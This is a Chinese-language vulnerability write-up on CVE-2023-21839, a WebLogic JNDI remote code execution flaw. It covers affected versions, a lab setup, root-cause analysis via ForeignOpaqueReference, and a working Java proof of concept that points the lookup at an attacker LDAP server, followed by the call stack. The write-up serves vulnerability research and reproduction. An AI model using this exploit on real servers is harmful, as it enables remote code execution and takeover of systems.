 - [CVE-2023-21839 远程代码执行(JNDI)](#cve-2023-21839-远程代码执行jndi)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ForeignOpaqueReference](#foreignopaquereference)
  - [漏洞复现](#漏洞复现)
  - [参考](#参考)

# CVE-2023-21839 远程代码执行(JNDI)
## 影响版本
```
Weblogic 12.2.1.3.0  
Weblogic 12.2.1.4.0  
Weblogic 14.1.1.0.0  
```
实测12.1.3也受影响
## 环境搭建
https://github.com/QAX-A-Team/WeblogicEnvironment  
测试环境:  
Weblogic 12.1.3  
JDK: 8u112
## 原理分析
利用Weblogic中的RMI在lookup时对`OpaqueReference`子类的对象会调用`getReferent()`方法,寻找到一个可利用的`ForeignOpaqueReference`类,其相关方法中存在JNDI注入完成RCE.
### ForeignOpaqueReference
主要是利用Weblogic的JNDI在lookup一个对象时,如果该对象是`OpaqueReference`的子类,那么会调用其`getReferent()`方法.  
![](2023-02-24-17-51-17.png)  
而`ForeignOpaqueReference`則是实现了`OpaqueReference`且其`getReferent()`方法中存在一个JNDI注入的sink.  
![](2023-02-24-17-52-29.png)  
所以可以通过反射修改`ForeignOpaqueReference`对象的`remoteJNDIName`属性为恶意LDAP地址,获得一个恶意的ForeignOpaqueReference obj再将其绑定到weblogic的注册表上,再对该对象进行一次查询,那么就会触发`ForeignOpaqueReference#getReferent()`,最终触发JNDI注入. 
## 漏洞复现  
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class poc {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String args[]) throws Exception {
        InitialContext c=getInitialContext("t3://127.0.0.1:7001");
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference obj=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(obj,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(obj,"ldap://192.168.65.2:1389/pcho5q");
        c.rebind("poc",obj);
        c.lookup("poc");}
}
```
![](2023-02-24-18-00-00.png)  
![](2023-02-24-18-00-15.png)  
调用栈
![](2023-02-24-18-00-57.png)  
```
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
getReferent:247, ForeignOpaqueReference (weblogic.deployment.jms)
getObjectInstance:92, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```
## 参考
https://www.oracle.com/security-alerts/cpujan2023verbose.html